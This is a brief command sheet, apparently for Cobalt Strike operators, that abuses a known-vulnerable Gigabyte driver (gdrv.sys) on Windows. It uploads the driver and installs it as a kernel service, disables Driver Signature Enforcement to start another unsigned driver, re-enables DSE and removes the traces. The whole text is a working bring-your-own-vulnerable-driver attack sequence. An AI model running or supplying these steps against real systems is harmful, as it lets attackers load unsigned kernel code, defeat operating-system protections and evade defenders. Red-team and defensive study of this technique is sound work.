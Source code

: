 Upload Known Vulnerable Driver
`upload C:\Tools\cobaltstrike\gdrv\gdrv.sys`
`run sc create gdrv type= kernel binPath= C:\Windows\System32\drivers\gdrv.sys`
`run sc start gdrv`

Disable DSE and Start PPL Driver
**Note:** re-enable DSE as quickly as possible
`disable_dse`
`run sc start redoct`
`enable_dse`

Unload and Remove Vulnerable Driver
`run sc stop gdrv`
`run sc delete gdrv`
`rm gdrv.sys`